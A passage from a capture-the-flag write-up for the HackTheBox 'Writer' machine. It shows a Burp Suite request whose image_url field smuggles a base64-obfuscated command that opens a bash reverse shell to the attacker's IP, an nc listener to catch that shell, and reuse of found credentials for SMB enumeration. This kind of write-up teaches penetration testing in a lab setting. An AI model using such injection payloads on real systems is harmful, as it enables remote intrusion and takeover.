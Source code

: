 Inside the burpsuite request we change line32, the image_url parameter to this:
```
------WebKitFormBoundarylheUOM2LE5BSyVAa

Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/test.jpg;`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjYxLzQyNDIgMD4mMQ==|base64 -d|bash`;#
```
![burpsuite.png](burpsuite.png)

We catch the reverse shell on our host mashine with:
```
nc -nvlp 4242
```

In the next step we make use of the credentials we found earlier:
We got the user "kyle" from the /etc/passwd file and the password "ToughPasswordToCrack" from the `__init__.py`.
We use those now to enumerate the smb shares on writer.htb with smbmap like this:
